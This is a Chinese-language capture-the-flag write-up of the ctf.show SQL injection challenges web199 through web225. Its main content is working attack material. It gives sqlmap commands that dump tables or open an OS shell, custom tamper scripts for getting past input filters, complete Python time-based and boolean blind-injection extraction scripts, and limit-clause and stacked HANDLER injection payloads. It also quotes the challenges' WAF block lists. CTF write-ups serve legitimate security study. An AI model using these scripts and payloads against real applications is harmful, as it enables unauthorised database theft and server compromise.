  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set|create|drop|\(/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```
然并卵，同上
## web200（堆叠注入）
```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";

  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set|create|drop|\(|\,/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```
同上
## web201（sqlmap referer）

提示使用--referer绕过referer字段检查
payload：

```sql
sqlmap -u http://ccbeb5de-bb83-49ad-bb0c-3c3951b90561.challenge.ctf.show/api?id=1 --referer="http://ccbeb5de-bb83-49ad-bb0c-3c3951b90561.challenge.ctf.show/sqlmap.php" --batch -D ctfshow_web -T ctfshow_user -C pass --dump
```
## web202（sqlmap post）

提示说变更请求方法，那应该就是id=1变为post方式
payload：

```sql
sqlmap -u http://89db3d5f-7b86-4646-829e-352b2bca63ab.challenge.ctf.show/api/ --data="id=1" --referer="http://89db3d5f-7b86-4646-829e-352b2bca63ab.challenge.ctf.show/sqlmap.php" --batch -D ctfshow_web -T ctfshow_user -C pass --dump
```
## web203（sqlmap --method）
> 使用--method 调整sqlmap的请求方式

```sql
sqlmap -u http://e626647d-5cb2-4d05-800a-fbf7e74b952a.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --referer="http://e626647d-5cb2-4d05-800a-fbf7e74b952a.challenge.ctf.show/sqlmap.php" --batch -D ctfshow_web -T ctfshow_user -C pass --dump
```
--method=put 是以put方式提交数据
--headers="content-type:text/plain" 是指定提交方式，以免变成键值对put无法接收
## web204（sqlmap --cookie）
加上--cookie即可
## web205（sqlmap --safe-url）
观察发现在访问/api/index.php前，会访问一次/api/getToken.php
> --safe-url 设置在测试目标地址前访问的安全链接 
> --safe-freq 设置两次注入测试前访问安全链接的次数

```sql
sqlmap -u http://5b6df0bc-df17-4d42-ade2-d0c97d2929a4.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --referer="http://5b6df0bc-df17-4d42-ade2-d0c97d2929a4.challenge.ctf.show/sqlmap.php" --safe-url="http://5b6df0bc-df17-4d42-ade2-d0c97d2929a4.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=tako5u4s3isfemao7eu9h72r8o" --batch -D ctfshow_web -T ctfshow_flax --dump
```
## web206（sqlmap --safe-url）
需要闭合，同上
```sql
sqlmap -u http://561398b1-68e3-4976-8c87-ad558b762bb4.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --referer="http://561398b1-68e3-4976-8c87-ad558b762bb4.challenge.ctf.show/sqlmap.php" --safe-url="http://561398b1-68e3-4976-8c87-ad558b762bb4.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=tako5u4s3isfemao7eu9h72r8o" --batch -D ctfshow_web -T ctfshow_flaxc --dump
```
## web207（sqlmap --tamper space2comment）
开始使用sqlmap绕过过滤了，这个题过滤了空格，前面也说过，这里不躲赘述
```sql
sqlmap -u http://e8275a12-7b01-4ca9-abb1-234f680f4fb5.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --batch --safe-url="http://e8275a12-7b01-4ca9-abb1-234f680f4fb5.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=p6t1dc1tff53dqvuckatsmlnse" --referer="http://e8275a12-7b01-4ca9-abb1-234f680f4fb5.challenge.ctf.show/sqlmap.php" --tamper=space2comment.py -D ctfshow_web -T ctfshow_flaxca --dump
```
## web208（sqlmap --tamper space2comment）
过滤了小写的select，问题不大，sqlmap使用的是大写Orz
```sql
sqlmap -u http://a4ac5964-6598-492a-9a4c-a63931c35518.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --batch --safe-url="http://a4ac5964-6598-492a-9a4c-a63931c35518.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=p6t1dc1tff53dqvuckatsmlnse" --referer="http://a4ac5964-6598-492a-9a4c-a63931c35518.challenge.ctf.show/sqlmap.php" --tamper=space2comment.py -D ctfshow_web -T ctfshow_flaxcac --dump
```
## web209（sqlmap --tamper space20a）
```php
//对传入的参数进行了过滤
  function waf($str){
   //TODO 未完工
   return preg_match('/ |\*|\=/', $str);
  }
```
过滤了空格、*、和等号，前两个可以通过%0a绕过，等号可以通过like绕过，sqlmap中没有一个脚本同时可以满足这两个要求（使用多个除外），这里选择自己写个脚本，用来绕过：space20a.py
```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2021 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

from lib.core.compat import xrange
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Replaces space character (' ') with comments 'chr(0x0a)'

    Tested against:
        * Microsoft SQL Server 2005
        * MySQL 4, 5.0 and 5.5
        * Oracle 10g
        * PostgreSQL 8.3, 8.4, 9.0

    Notes:
        * Useful to bypass weak and bespoke web application firewalls

    >>> tamper('SELECT id FROM users')
    'SELECT/**/id/**/FROM/**/users'
    """

    retVal = payload

    if payload:
        retVal = ""
        quote, doublequote, firstspace = False, False, False

        for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += chr(0x0a)
                    continue
            
            elif payload[i] == "=":
                retVal += chr(0x0a)+"LIKE"+chr(0x0a)
                continue
                
            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote     

            elif payload[i] == " " and not doublequote and not quote:
                retVal += chr(0x0a)
                continue

            retVal += payload[i]

    return retVal

```
payload：
```sql
sqlmap -u http://d1669260-f0e8-47e6-93fc-716d2e6a2aa5.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --batch --safe-url="http://d1669260-f0e8-47e6-93fc-716d2e6a2aa5.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=io8p0l7mvkf5j5n0slb1339pmr" --referer="http://d1669260-f0e8-47e6-93fc-716d2e6a2aa5.challenge.ctf.show/sqlmap.php" --tamper=space20a.py -D ctfshow_web -T ctfshow_flav --dump
```
## web210（sqlmap --tamper base64_reverse）
```php
//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
```
观察到需要对传入字符串进行反转->b64encode->反转->b64encode，这样解密过后就会形成注入
自编sqlmap脚本：base64_reverse.py
```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2021 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

from lib.core.convert import encodeBase64
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    rev->b64encode->rev->b64encode

    >>> tamper("1' AND SLEEP(5)#")
    'MScgQU5EIFNMRUVQKDUpIw=='
    """

    return encodeBase64(encodeBase64(payload[::-1], binary=False)[::-1], binary=False) if payload else payload

```
payload：
```sql
sqlmap -u http://8d7939fb-e94b-42c5-9958-9e12e356d27b.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --batch --safe-url="http://8d7939fb-e94b-42c5-9958-9e12e356d27b.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=kvugtg72oirlau35bd7sp47lft" --referer="http://8d7939fb-e94b-42c5-9958-9e12e356d27b.challenge.ctf.show/sqlmap.php" --tamper=base64_reverse.py -D ctfshow_web -T ctfshow_flavi --dump
```
## web211（sqlmap --tamper base64_reverse）
```php
//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
function waf($str){
    return preg_match('/ /', $str);
}
```
多过滤了空格，不过base64后也没有空格，或者使用/**/代替也行，同上
payload：
```sql
sqlmap -u http://0bbd2e83-d166-48d7-bf6f-e1cc1757f23c.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --batch --safe-url="http://0bbd2e83-d166-48d7-bf6f-e1cc1757f23c.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=kvugtg72oirlau35bd7sp47lft" --referer="http://0bbd2e83-d166-48d7-bf6f-e1cc1757f23c.challenge.ctf.show/sqlmap.php" --tamper=space2comment.py,base64_reverse.py -D ctfshow_web -T ctfshow_flavia --dump
```
## web212（sqlmap --tamper base64_reverse）
```php
//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
function waf($str){
    return preg_match('/ |\*/', $str);
}
```
过滤了空格外还过滤了*，可以使用%0a绕过，脚本同web209，但是要删除等号的替换，防止对base64结果造成影响
payload：
```sql
sqlmap -u http://6042e5b9-06e2-4e2e-be35-331c4ea7bd10.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --batch --safe-url="http://6042e5b9-06e2-4e2e-be35-331c4ea7bd10.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=0bs54hboh98dsq24ct61otlnch" --referer="http://6042e5b9-06e2-4e2e-be35-331c4ea7bd10.challenge.ctf.show/sqlmap.php" --tamper=space20a.py,base64_reverse.py -D ctfshow_web -T ctfshow_flavis --dump
```
## web213（sqlmap --os-shell）
```sql
练习使用--os-shell 一键getshell
```
题目和上个题一样，提示说使用--os-shell，那么就是正常姿势，先查找注入点：
```sql
sqlmap -u http://6dbfae24-2cec-463d-b96c-45fd34fb84fc.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --batch --safe-url="http://6dbfae24-2cec-463d-b96c-45fd34fb84fc.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=0bs54hboh98dsq24ct61otlnch" --referer="http://6dbfae24-2cec-463d-b96c-45fd34fb84fc.challenge.ctf.show/sqlmap.php" --tamper=space20a.py,base64_reverse.py
```
使用--os-shell一个条件就是当前用户必须有root权限，所以查看一下：
```sql
sqlmap -u http://6dbfae24-2cec-463d-b96c-45fd34fb84fc.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --batch --safe-url="http://6dbfae24-2cec-463d-b96c-45fd34fb84fc.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=0bs54hboh98dsq24ct61otlnch" --referer="http://6dbfae24-2cec-463d-b96c-45fd34fb84fc.challenge.ctf.show/sqlmap.php" --tamper=space20a.py,base64_reverse.py --is-dba --current-user
```

符合预期，然后就是--os-shell

```sql
sqlmap -u http://6dbfae24-2cec-463d-b96c-45fd34fb84fc.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --batch --safe-url="http://6dbfae24-2cec-463d-b96c-45fd34fb84fc.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=0bs54hboh98dsq24ct61otlnch" --referer="http://6dbfae24-2cec-463d-b96c-45fd34fb84fc.challenge.ctf.show/sqlmap.php" --tamper=space20a.py,base64_reverse.py --os-shell
```
我这里只成功了一个，没有直接弹shell

访问一下这个页面

是sqlmap构造的一个文件上传，方便我们传码然后getshell

这里也是直接getshell了，最后就是找flag：system('cat /ctfshow_flag');


## web214（时间盲注）
这个题重点是在找注入点，比较点进去时间盲注啥也没有，看了大师傅的wp发现在index.php页面中有个这样的js文件：

向api/index.php发送了post请求，然后测试发现是ip字段存在时间盲注，时间盲注和布尔盲注原理基本是一样的，举个例子：ip=1 or if(1=0,1,sleep(1))-- -很明显1=0是不正确的，那么就会执行sleep(1)，发现页面进入等待，1s多后出现回显，这就是简单的一种时间盲注，所以我们构造payload去查询一些字段，比如数据库名表名等等，然后根据页面响应时间的长短判断是否正确，进而爆破出答案，上脚本：

```python
'''
Author: KonDream
Date: 2021-12-16 00:31:18
LastEditors:  KonDream
LastEditTime: 2021-12-16 00:52:23
Description:  
'''
import requests

url = "http://0be5cdb6-57e9-4049-8635-e6abcddd8027.challenge.ctf.show/api/index.php"

flag = '' 
# 爆数据库名 ctfshow_flagx,ctfshow_info
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,flaga,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagx'"
# 爆字段
payload = "select flaga from ctfshow_flagx"

for i in range(1, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break

        data = {
            # 二分法查找字符，ascii值大则sleep
            'ip' : "1 or if(ascii(substr(({}), {}, 1)) > {}, sleep(1), 1)-- -".format(payload, i, mid),
            'debug' : 1
        }

        r = requests.post(url=url, data=data)
        r = r.elapsed.total_seconds() # 获取页面响应时间

        if r > 1: #响应时间超过1s，证明查询成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```
## web215（时间盲注）
思路同上，这个题payload要闭合单引号
```python
'''
Author: KonDream
Date: 2021-12-16 00:59:13
LastEditors:  KonDream
LastEditTime: 2021-12-16 01:02:36
Description:  
'''
import requests

url = "http://deb6375d-362d-49f7-8626-00484b436b5a.challenge.ctf.show/api/index.php"

flag = '' 
# 爆数据库名 ctfshow_flagxc,ctfshow_info
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,flagaa,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxc'"
# 爆字段
payload = "select flagaa from ctfshow_flagxc"

for i in range(1, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break

        data = {
            # 二分法查找字符，ascii值大则sleep
            'ip' : "1' or if(ascii(substr(({}), {}, 1)) > {}, sleep(1), 1)-- -".format(payload, i, mid),
            'debug' : 1
        }

        r = requests.post(url=url, data=data)
        r = r.elapsed.total_seconds() # 获取页面响应时间

        if r > 1: #响应时间超过1s，证明查询成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```
## web216（时间盲注）
先随便传个参看看是什么回显

原来是base64加密了，一开始的思路是用to_base64去抵消这个from_base64，但是试了几次没有成功，索性就换个思路，尝试闭合括号

发现页面确实响应了2s左右，那么就可以写脚本了

```python
'''
Author: KonDream
Date: 2021-12-16 01:07:35
LastEditors:  KonDream
LastEditTime: 2021-12-16 01:21:29
Description:  
'''
import requests

url = "http://69171097-f166-41e6-88a9-b4e0b723e5b9.challenge.ctf.show/api/index.php"

flag = '' 
# 爆数据库名 ctfshow_flagxcc,ctfshow_info
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,flagaac,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxcc'"
# 爆字段
payload = "select flagaac from ctfshow_flagxcc"

for i in range(1, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break
        
        data = {
            # 二分法查找字符，ascii值大则sleep
            'ip' : "1) or if(ascii(substr(({}), {}, 1)) > {}, sleep(1), 1)-- -".format(payload, i, mid),
            'debug' : 1
        }

        r = requests.post(url=url, data=data)
        r = r.elapsed.total_seconds() # 获取页面响应时间

        if r > 1: #响应时间超过1s，证明查询成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```
## web217（时间盲注）
过滤了sleep，看另一个函数：

所以我们可以控制参数来控制页面响应时间，经过测试，这个题需要benchmark(100000000/2,1)，这样的回显大概是2s左右，然后判断还是大于1s，当然也可以让响应时间更短一点，接近于1s更好，但是这样容易产生误差，所以我设置在了2s左右，接下来就是常规的爆数据库、表名、字段

```python
'''
Author: KonDream
Date: 2021-12-16 01:33:25
LastEditors:  KonDream
LastEditTime: 2021-12-16 01:50:45
Description:  
'''
from datetime import date
import requests

url = "http://81c3c844-1a05-49e8-8af8-90ffe70f5c53.challenge.ctf.show/api/index.php"

flag = 'ctfshow{' 
# 爆数据库名 ctfshow_flagxccb,ctfshow_info
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,flagaabc,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxccb'"
# 爆字段
payload = "select flagaabc from ctfshow_flagxccb"


for i in range(9, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break
        
        data = {
            # 二分法查找字符，ascii值大则sleep
            'ip' : "1) or if(ascii(substr(({}), {}, 1)) > {}, benchmark(100000000/2,1), 1)-- -".format(payload, i, mid),
            'debug' : 1
        }

        r = requests.post(url=url, data=data)
        r = r.elapsed.total_seconds() # 获取页面响应时间
        # print(r)
        if r > 1: #响应时间超过1s，证明查询成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```
## web218（时间盲注）
```php
    //屏蔽危险分子
    function waf($str){
        return preg_match('/sleep|benchmark/i',$str);
    }   
```
过滤了benchmark，思想还是一样的，就是查询大量数据以拖慢查询速度，这里使用join
脚本：（执行较慢，耐心等待）
```python
'''
Author: KonDream
Date: 2021-12-16 14:03:54
LastEditors:  KonDream
LastEditTime: 2021-12-16 14:40:13
Description:  
'''
import requests

url = "http://3efff415-cc9f-459f-b367-913404f94af4.challenge.ctf.show/api/index.php"

flag = 'ctfshow{' 
# 爆数据库名 ctfshow_flagxc,ctfshow_info
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,flagaac,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxc'"
# 爆字段
payload = "select flagaac from ctfshow_flagxc"

for i in range(9, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break
        
        data = {
            # 二分法查找字符，ascii值大则sleep
            'ip' : "1) or if(ascii(substr(({}), {}, 1)) > {}, (SELECT count(*) FROM information_schema.columns A join information_schema.columns B), 1)-- -".format(payload, i, mid),
            'debug' : 1
        }

        r = requests.post(url=url, data=data)
        r = r.elapsed.total_seconds() # 获取页面响应时间
        # print(r)
        if r > 1: #响应时间超过1s，证明查询成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```
## web219（时间盲注）
```php
    //屏蔽危险分子
    function waf($str){
        return preg_match('/sleep|benchmark|rlike/i',$str);
    }   
```
同上，需调整查询时间
```python
'''
Author: KonDream
Date: 2021-12-16 14:46:37
LastEditors:  KonDream
LastEditTime: 2021-12-16 14:53:16
Description:  
'''
import requests

url = "http://1d0e7741-69a4-48e2-9e35-24b48f64ebd7.challenge.ctf.show/api/index.php"

flag = 'ctfshow{' 
# 爆数据库名 ctfshow_flagxca,ctfshow_info
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,flagaabc,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxca'"
# 爆字段
payload = "select flagaabc from ctfshow_flagxca"

for i in range(9, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break
        
        data = {
            # 二分法查找字符，ascii值大则sleep
            'ip' : "1) or if(ascii(substr(({}), {}, 1)) > {}, (SELECT count(*) FROM information_schema.columns A join information_schema.columns B), 1)-- -".format(payload, i, mid),
            'debug' : 1
        }

        r = requests.post(url=url, data=data)
        r = r.elapsed.total_seconds() # 获取页面响应时间
        # print(r)
        if r > 0.3: #响应时间超过0.3s，证明查询成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```
## web220（时间盲注）
```php
    //屏蔽危险分子
    function waf($str){
        return preg_match('/sleep|benchmark|rlike|ascii|hex|concat_ws|concat|mid|substr/i',$str);
    }  
```
这个题有两个坑点，一是过滤了concat，导致payload中不能用，这个卡了我好久，二是payload要记得limit呜呜呜，一个一个查
```python
'''
Author: KonDream
Date: 2021-12-16 14:55:32
LastEditors:  KonDream
LastEditTime: 2021-12-16 15:42:39
Description:  
'''
import requests

url = "http://5436efa6-7299-4603-b73c-2c97d55a1620.challenge.ctf.show/api/index.php"

flag = '' 
# 爆数据库名 ctfshow_flagxcac,ctfshow_info
# payload = "select table_name from information_schema.tables where table_schema=database() limit 1"
# 爆表名 id,flagaabcc,info
# payload = "select column_name from information_schema.columns where table_name='ctfshow_flagxcac' limit 1,1"
# 爆字段
payload = "select flagaabcc from ctfshow_flagxcac"

for i in range(1, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        # time.sleep(1
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break
        
        data = {
            # 二分法查找字符，ascii值大则sleep
            'ip' : "1) or if(ord(right(left(({}), {}), 1)) > {}, (SELECT count(*) FROM information_schema.columns A join information_schema.columns B), 0)-- -".format(payload, i, mid),
            'debug' : 1
        }
        r = requests.post(url=url, data=data)
        r = r.elapsed.total_seconds() # 获取页面响应时间
    
        if r > 0.3: #响应时间超过0.3s，证明查询成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢

```
## web221（limit注入）
参考文章：[https://www.cnblogs.com/blacksunny/p/9115141.html](https://www.cnblogs.com/blacksunny/p/9115141.html)
```php
  //分页查询
  $sql = select * from ctfshow_user limit ($page-1)*$limit,$limit;

//TODO:很安全，不需要过滤
//拿到数据库名字就算你赢
```
第一次遇到这种题，收集一下姿势吧，看一眼题面，两个参数，而且是跟在limit后的，所以猜想是limit注入。查了资料：
```sql
# MYSQL 5.x
SELECT
    [ALL | DISTINCT | DISTINCTROW ]
      [HIGH_PRIORITY]
      [STRAIGHT_JOIN]
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT]
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS]
    select_expr [, select_expr ...]
    [FROM table_references
    [WHERE where_condition]
    [GROUP BY {col_name | expr | position}
      [ASC | DESC], ... [WITH ROLLUP]]
    [HAVING where_condition]
    [ORDER BY {col_name | expr | position}
      [ASC | DESC], ...]
    [LIMIT {[offset,] row_count | row_count OFFSET offset}]
    [PROCEDURE procedure_name(argument_list)]
    [INTO OUTFILE 'file_name' export_options
      | INTO DUMPFILE 'file_name'
      | INTO var_name [, var_name]]
    [FOR UPDATE | LOCK IN SHARE MODE]]
```
得知limit后面只能跟两个函数，PROCEDURE 和 INTO，INTO除非有写入shell的权限，否则是无法利用的。所以就剩一个procedure是可用的，同时Mysql中默认可用的存储过程只有analyse，然后就是使用报错注入爆出数据库
payload：?page=1&limit=1 procedure analyse(extractvalue(rand(),concat(0x3a,database())),1)

最后提交数据库名即可

## web222（时间盲注）
```python
'''
Author: KonDream
Date: 2021-12-19 19:00:03
LastEditors:  KonDream
LastEditTime: 2021-12-19 19:25:04
Description:  
'''
import requests

url = "http://c34cda53-3c9f-45af-af99-1c8aa15a98ad.challenge.ctf.show/api/"

# 爆数据库名 ctfshow_flaga,ctfshow_info
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,flagaabc,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flaga'"
# 爆字段
payload = "select flagaabc from ctfshow_flaga"

flag = 'ctfshow{' 

for i in range(9, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        # time.sleep(1
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break
        
        params = {
            'u' : "if(ascii(substr(({}), {}, 1)) > {}, sleep(0.05), 2)".format(payload, i, mid),
            'page' : 1,
            'limit' : 1
        }
        r = requests.get(url=url, params=params)
        r = r.elapsed.total_seconds() # 获取页面响应时间
    
        if r > 0.8: #响应时间超过0.8s，证明查询成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```
这里由于是利用group，那么有几条语句就会执行几次sleep，所以sleep(0.05)实际上响应是1s多
## web223（布尔盲注）
这个题过滤了数字，和之前的题差不多
```python
'''
Author: KonDream
Date: 2021-12-19 19:57:38
LastEditors:  KonDream
LastEditTime: 2021-12-19 20:22:31
Description:  
'''
import requests

url = "http://cc96dd6e-0222-4637-bd24-0aaf6006aff3.challenge.ctf.show/api/"

# 爆数据库名 ctfshow_flagas,ctfshow_user
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,flagasabc,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagas'"
# 爆字段
payload = "select flagasabc from ctfshow_flagas"

flag = 'ctfshow{' 

def cal_True(num):
    res = 'true'
    if num == 1:
        return res
    else:
        for i in range(num - 1):
            res += "+true"
        return res


for i in range(9, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:

        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break
        
        i_True = cal_True(i)    # 2->true+true
        mid_True = cal_True(mid)

        params = {
            'u' : "if(ascii(substr(({}), {}, true)) > {}, username, 'a')".format(payload, i_True, mid_True),
            'page' : 1,
            'limit' : 1
        }
        r = requests.get(url=url, params=params)
 
		if 'passwordAUTO' in r.text: # 回显passwordAUTO，证明查询成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```

## web225（handler）

```sql
  //分页查询
  $sql = "select id,username,pass from ctfshow_user where username = '{$username}';";
      
返回逻辑

  //师傅说过滤的越多越好
  if(preg_match('/file|into|dump|union|select|update|delete|alter|drop|create|describe|set/i',$username)){
    die(json_encode($ret));
  }
 
```

堆叠注入，常规的查询被ban了，考虑使用handler，先看官网文档说明

>HANDLER *tbl_name* OPEN [ [AS] *alias*] 
>
>HANDLER *tbl_name* READ *index_name* { = | <= | >= | < | > } (*value1*,*value2*,...)    
>
>​	[ WHERE *where_condition* ] [LIMIT ... ] 
>
>HANDLER *tbl_name* READ *index_name* { FIRST | NEXT | PREV | LAST }    
>
>​	[ WHERE *where_condition* ] [LIMIT ... ] 
>
>HANDLER *tbl_name* READ { FIRST | NEXT }    
>
>​	[ WHERE *where_condition* ] [LIMIT ... ] 
>
>HANDLER *tbl_name* CLOSE

handler能够一行一行的浏览一个表中的数据，但是 handler 语句并不具备 select 语句的所有功能。它是 MySQL 专用的语句，并没有包含到SQL标准中。handler 语句提供通往表的直接通道的存储引擎接口，可以用于 MyISAM 和 InnoDB 表。

首先查表：`payload：ctfshow';show tables;`



然后查表中内容，`payload：ctfshow';handler ctfshow_flagasa open;handler ctfshow_flagasa read first;`


